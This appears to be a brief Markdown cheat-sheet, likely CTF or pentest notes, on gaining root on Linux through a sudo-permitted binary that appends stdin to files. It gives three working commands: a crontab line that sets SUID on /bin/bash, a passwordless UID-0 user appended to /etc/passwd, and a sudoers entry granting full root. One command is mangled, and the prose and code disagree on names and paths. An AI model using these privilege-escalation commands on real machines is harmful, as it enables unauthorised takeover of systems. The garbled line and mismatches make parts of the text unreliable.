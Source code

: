 # STDIN/STDOUT

if we can copy stdin to a file and to stdout we can use these techniques to gain root privilege on linux. this can be done with a vulnerable binary that doesn't correctly handle I/O.

## method 1

add an entry to the “/etc/crontab” file which is executed every minute to change the permissions fro the “/bin/sh” binary to be 4777 which means SUID.

```
echo "* * * * * root chmod 4777 /bin/bash" | sudo >>>>  /etc/crontab
```

if the vulnerable binry file is called teehee, we will have something like this:

```
echo "* * * * * root chmod 4777 /bin/bash" | sudo teehee -a /etc/crontab
/bin/bash
```

this means that the vulnerable binary run the echo command and add the line to /etc/crontab which will run every minute and gives us full access to /bin/bash as root

## method 2

adding an entry the /etc/passwd file for a new user called “hackingresources” with the same uid (User ID) and gid (Group ID) as root user and this user has no password.

```
echo "root2::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su root2
```

again we are using the same vulnerability with a different method.

## method 3

by adding an entry to the /etc/sudoers file which will allow jim user to run all the commands as root without the need for the password.

```
echo " username ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers 
username$ sudo /bin/bash
```
